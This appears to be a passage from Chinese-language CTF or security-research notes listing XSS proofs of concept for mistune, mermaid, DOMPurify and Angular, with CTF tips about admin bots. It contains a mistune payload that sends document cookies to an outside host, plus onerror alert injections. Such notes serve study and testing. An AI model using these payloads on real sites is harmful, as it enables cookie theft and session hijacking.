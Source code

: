 ## 相关库漏洞
### mistune
**版本**：<=8.0
**验证**：
```python
import mistune
renderer = mistune.Renderer(escape=True, hard_wrap=True)
markdown = mistune.Markdown(renderer=renderer)
markdown("<javascript:document.location='hello.myserver.com/?cookie='+document.cookies>");
``` 

### mermaid
**版本**：？？？
**验证**：
```javascript
//搜索`mermaid insert tag`
graph LR
id1("<img src='' onerror='alert(1)'></img>")

graph LR; D-->X((<img src='/address/to/image.png' width=5 onerror='javascript:alert`1`' >))
```

### DomPurify
**版本**：？？？
**验证**：
官方介绍有：
**The resulting HTML can be written into a DOM element using innerHTML or the DOM using document.write(). That is fully up to you. But keep in mind, if you use the sanitized HTML with jQuery's very insecure elm.html() method, then the SAFE_FOR_JQUERY flag has to be set to make sure it's safe! Other than that, all is fine.**
以及官方的测试如下：
![](/images/19-4-7_midnighctf-2019_Marcoolio_1.png)
```javascript
<option><style></option></select><b><img src=xx: onerror=alert(1)></style></option>
```

### Angular
Angular是一个比较流行的前端框架

## 事件型漏洞
现实生活中的实际例子和CTF比赛中特地构造的漏洞环境。
**CTF比赛中总结就是：**
- 管理员(终端)会打开一个存在XSS的页面，这个页面对于你来说有可控点。
- 管理员(终端)会回显你构造的字符串。
- 等一些其他例子。
